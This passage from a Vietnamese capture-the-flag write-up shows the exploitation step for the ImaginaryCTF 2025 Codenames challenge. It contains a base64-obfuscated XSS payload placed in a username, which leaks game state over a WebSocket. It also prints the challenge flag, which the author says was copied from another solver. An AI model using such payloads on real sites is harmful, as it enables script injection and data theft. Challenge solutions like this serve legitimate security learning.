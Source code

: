 ### 3. Khai thác

Chúng ta lắp ráp lại mọi thứ đã phân tích thôi

- Bước 1: Tạo 1 username như sau 
```js
<img src=0 onerror='eval(atob(`Yz1pbygiLyIse3F1ZXJ5Ontjb2RlOmNvZGV9fSk7Yy5vbigiY29ubmVjdCIsKCk9PmMuZW1pdCgiam9pbiIpKTtjLm9uKCJzdGFydF9nYW1lIixkPT5jLmVtaXQoImdpdmVfY2x1ZSIse2NsdWU6SlNPTi5zdHJpbmdpZnkoZCksbnVtYmVyOjEwMH0pKTsNCg`))'>.txt
```
- Bước 2: Thực thi lỗ hổng xss như đã phân tích bên trên, tạo 1 phòng với language là `/app/profiles/<username ở bước 1 nhưng bỏ .txt>`
- Bước 3: Vô phòng, xong đó add bot
- Bước 4: Ở WebSocket history trên burp suite, sẽ có response trả về leak toàn bộ thông tin về game. Nếu bạn phe đỏ thì chọn tất cả các cái màu đỏ và ngược lại và lụm flag

<img src="https://raw.githubusercontent.com/ductohno/personal_blog/refs/heads/main/src/content/posts/imaginaryctf2025/image/flag_codename2.png" width="1200px">

Mình test trên codename1 nên nó ko có flag :(

### 4. Flag

Mình có tham khảo qua cách giải từ [đây](https://nullbrunk.github.io/posts/imaginaryctf-2025-codenames-2)

Flag thì mình lấy tạm của họ cho đỡ trống nhé, tại cũng hết giải nên ko vô dc codename2 do nó xài nc 

`ictf{insane_mind_reading_908f13ab}`
